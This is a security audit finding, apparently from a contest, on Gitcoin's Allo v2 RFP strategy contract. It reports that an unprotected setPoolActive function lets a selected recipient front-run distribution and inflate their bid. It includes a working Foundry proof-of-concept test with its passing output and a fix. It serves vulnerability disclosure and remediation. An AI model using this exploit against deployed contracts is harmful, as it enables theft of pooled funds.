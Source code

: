 Clumsy Pecan Jay

high

# RFP Recipient can steal funds by toggling the pool activity state
## Summary

The `setPoolActive` should be callable by the pool manager however it is missing an `onlyPoolManager` modifier.
This allows a malicious recipient to perform a set of steps to steal funds.

## Vulnerability Detail

`setPoolActive` is unprotected:
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L219
```solidity
    function setPoolActive(bool _flag) external {
        _setPoolActive(_flag);
        emit PoolActive(_flag);
    }
```

The pool activity state determains what functions are callable by the modifiers `onlyInactivePool` and `onlyActivePool`.

For example - only in an active pool recipients can register and re-register. This is to prevent any changes after an allocation and change the state of the phase of the contract.

```solidity
    function _registerRecipient(bytes memory _data, address _sender)
        internal
        override
        onlyActivePool
```

Since anyone can change the activity state of the pool, an accepted recipient can front-run the `distribute` function - change the state, re-register with a higher bid and change again the activity state to false. 
This will steal unintended funds from the pool.

Consider the following scenario:
1. Manager creates an RFP pool with `100 ETH`.
2. Manager sets `two` milestones with `70%` payment for first milestone and `30%` for second.
3. Multiple recipients apply but `Alice` applies with a cheap `proposalBid` of only `20 ETH`.
4. Since `Alice` proposal is cheap, the manager calls `allocate` to chose `Alice`.
6. `Alice` completes the first milestone and submits it and the manager accepts the submission.
7. The manager calls `distribute` to move to the next milestone and pay `Alice` rewards for the first milestone
8. `Alice` front-runs the call to `distribute` and sets the pool state to true. re-registers updating her `proposalBid` to `100 ETH`.  Sets the pool state to false.
9.  `distribute` is executed and `70 ETH` is sent instead of `14 ETH`.

## Impact

Theft of more then intended and potentially all pool funds.

## Code Snippet

Add the following test to `RFPSimpleStrategy.t.sol`
```solidity
    function test_stealPoolFundsDistribute() external {
        uint256 poolTotalBeforeFee = 100 ether;
        uint256 percentFee =  (poolTotalBeforeFee * 1e16) / 1e18;
        uint256 poolTotal = poolTotalBeforeFee - percentFee;

        // Fund pool with ~100 ether
        vm.deal(pool_admin(), 100 ether);
        vm.prank(pool_admin());
        allo().fundPool{value: poolTotalBeforeFee}(poolId, poolTotalBeforeFee);

        // Increase max bid to ~100 ether
        vm.prank(pool_admin());
        strategy.increaseMaxBid(poolTotal);

        // Register
        address sender = recipient();
        uint256 recipientFakeProposalBid = 20 ether;
        Metadata memory metadata = Metadata({protocol: 1, pointer: "metadata"});
        bytes memory data = abi.encode(recipientAddress(), false, recipientFakeProposalBid, metadata);
        vm.prank(address(allo()));
        address recipientIdReceived = strategy.registerRecipient(data, sender);

        // Set Milestones
        __setMilestones();

        // Allocate
        vm.prank(address(allo()));
        strategy.allocate(abi.encode(recipientIdReceived), address(pool_admin()));

        // Submit milestone
        vm.prank(recipient());
        strategy.submitUpcomingMilestone(Metadata({protocol: 1, pointer: "metadata"}));

        // Front-run distribute, activate pool, register, deactive pool
        vm.prank(recipient());
        strategy.setPoolActive(true);

        data = abi.encode(recipientAddress(), false, poolTotal, metadata);
        vm.prank(address(allo()));
        recipientIdReceived = strategy.registerRecipient(data, sender);
        
        vm.prank(recipient());
        strategy.setPoolActive(false);

        // Distribute
        vm.prank(address(allo()));
        strategy.distribute(new address[](0), "", pool_admin());

        // Alice should receive 70% of the poolTotal (~70 eth)
        assertEq(recipientAddress().balance, (poolTotal * 7e17) / 1e18);
    }
```

To execute the test run the command:
```solidity
forge test --match-test "test_stealPoolFundsDistribute" -v
```

Expected output:
```solidity
Running 1 test for test/foundry/strategies/RFPSimpleStrategy.t.sol:RFPSimpleStrategyTest
[PASS] test_stealPoolFundsDistribute() (gas: 618183)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 10.41ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
## Tool used

Manual Review

## Recommendation

Add a `onlyPoolManager(msg.sender)` modifier to `setPoolActive`